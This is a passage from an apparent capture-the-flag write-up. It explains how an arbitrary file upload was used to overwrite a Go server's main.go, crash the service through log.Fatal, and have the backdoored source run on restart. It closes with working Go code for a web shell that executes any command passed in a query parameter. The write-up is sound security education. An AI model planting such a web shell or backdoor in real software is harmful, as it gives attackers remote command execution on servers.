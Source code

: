 But... then what? This does not allow us to read files.

## The Exploitation

At this point, I could not find any other useful and usable function. We need to find a way to push this further. I did not mention it, but on the first level I explored the filesystem of the challenge server while trying to find the flag. I noticed a few things.

The root `/` directory had `/app/` which contains the challenge's code. The root also contained `/app.bk/` which appeared to be a copy/backup of `/app/`. 

Since level 1, the challenge offered the possibility of resetting the challenge due to concerns of being hard locked. That could be done by visiting the route `/reset`. I hadn't noticed that route in the Go code, so it must be implemented in some other way. When exploring the filesystem, I found two PHP scripts which Apache pointed at when we visited `GET /reset` and `GET /source`. 

The `reset.php` script took care of replacing the `/app/` directory with a clean copy of the backup and restarting the challenge service. 

<details><summary>/var/www/html/reset.php - Level 1</summary></details>

The `source.php` script took care of showing us the contents of `main.go`. This functionality also wasnt seen in the Go code, so now it makes sense now.

My first train of thought was to try and backdoor the backup of `main.go` and reset so that we get setup a backdoored version of the challenge. This did not work as we did not have permissions to write in `/app.bk/`. Putting a PHP file in `/var/www/html/` was also not usable, due to the proxy only taking `reset` and `source`. 

We could try to backdoor `/app/main.go` (which we do have permissions for) but this wouldn't have any changes as the program is already loaded in memory.

Since the start, I had  experienced a few times where the server would crash and a message would appear that it is currently restarting, sometimes it would be in a restart loop and that is when a reset would be needed. Usually when a Go source is compiled, it is built into an `.exe`, but I did not see one in the `/app/` directory. Another way to run Go code is through a `go run main.go` command which does not create a `.exe` file. Therefore, I made a guess that the service, on restart, would perform a `go run main.go` command which would run it as it is then.

To recap:
- We have arbitrary file upload.
- We can overwrite `/app/main.go`
- We can maybe get our modified version ran if the service restarts (without a full reset).

One way to crash the server would be to reach one of the many calls to `log.Fatal` which is described as `Fatal is equivalent to Print() followed by a call to os.Exit(1)`. The one I ended up reaching was due to an error after calling `c.BindJSON(&update)` on line 47. To reach it, all we need to do is not send a JSON payload with `template` in it. An error will occur and the `log.Fatal` will be reached, terminating the server.

In my backdoored `main.go`, I implemented a very basic web shell on the route `/`.

```golang
r.GET("/", func(c *gin.Context) {
	cmd := c.DefaultQuery("fish", "id")
	out, err := exec.Command("sh", "-c", cmd).Output()
	if err != nil {
		c.String(200, fmt.Sprintf("%s\n", err))
	} else {
		c.String(200, fmt.Sprintf("%s\n", out))
	}
})
```

